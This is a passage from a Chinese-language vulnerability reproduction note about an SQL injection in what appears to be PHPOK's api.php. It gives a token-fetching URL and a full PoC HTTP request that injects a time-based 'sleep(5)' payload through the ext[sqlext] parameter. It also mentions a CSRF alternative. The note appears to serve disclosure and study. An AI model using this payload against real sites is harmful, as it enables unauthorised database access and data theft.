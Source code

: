 > 没开启的话，其实构造一个csrf的poc也是可以的

第二个条件预期id=m_picplayer即可

### 漏洞复现

```
http://0-sec.org/api.php?c=index&f=token&id=m_picplayer 
```

![image](../img/79349ebd419299c3860fbd3fa32552d4.png)

POC：

```
GET /api.php?c=index&f=phpok&token=6318fdtC3WRpOzYNzKVNw78PFa9OhFea5pp3/uZ4U3T67a/F47WhJ0lr856V7yomOcG0u8/UJpIwKKOwJAKspTSWN+5ljVNWR5978g7HHoG14M&ext[sqlext]=sleep(5)%23&ext[site]=1 HTTP/1.1
Host: 0-sec.org
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; U; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4
Connection: close 
```

## 四、参考链接

> https://xz.aliyun.com/t/6830